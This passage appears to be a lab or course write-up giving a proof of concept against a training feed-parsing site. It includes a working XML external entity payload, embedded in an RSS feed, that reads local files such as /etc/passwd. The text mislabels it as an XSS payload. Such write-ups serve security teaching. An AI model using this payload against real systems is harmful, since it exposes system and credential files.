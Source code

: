 ![](images/feed1.png)

The output should look something like this:

![](images/feed2.png)

**Proof of Concept - v1.feedifier.quoccabank.com**

The XSS payload is shown below. In the XML file, we are defining an entity called `xxe` in which we can use the `SYSTEM` keyword to read files from a URI. In this case, we can possibly extract and display files from the system such as `/etc/passwd`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "file://<file_path>" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
    <title>The Blog</title>
    <link>http://example.com/</link>
    <description>A blog about things</description>
    <lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
    <item>
        <title>&xxe;</title>
        <link>https://google.com</link>
        <description>asdasd</description>
        <author>author@example.com</author>
        <pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
    </item>
</channel>
</rss>
```
